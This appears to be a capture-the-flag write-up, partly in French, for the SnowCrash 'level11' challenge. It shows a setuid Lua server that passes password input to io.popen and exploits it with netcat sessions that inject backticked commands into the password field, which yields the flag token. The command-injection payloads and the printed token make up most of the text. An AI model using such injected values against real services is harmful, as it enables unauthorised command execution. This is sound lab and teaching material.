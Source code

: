 # LEVEL1

ls -la : 

```
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
```

```
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

f05d1d066fb246efe0c6f7d095f909a7a0cf34a0 = NotSoEasy


On peut voir que le programme fait appel à la fonction : io.open()

**io.popen()** starts the program in a separate process and returns a file handle that you can use to read data from this program.

Syntax
output = io.popen(command)

```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `whoami` > /tmp/test
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
flag11
```

```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` > /tmp/token
Erf nope..
```

```
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
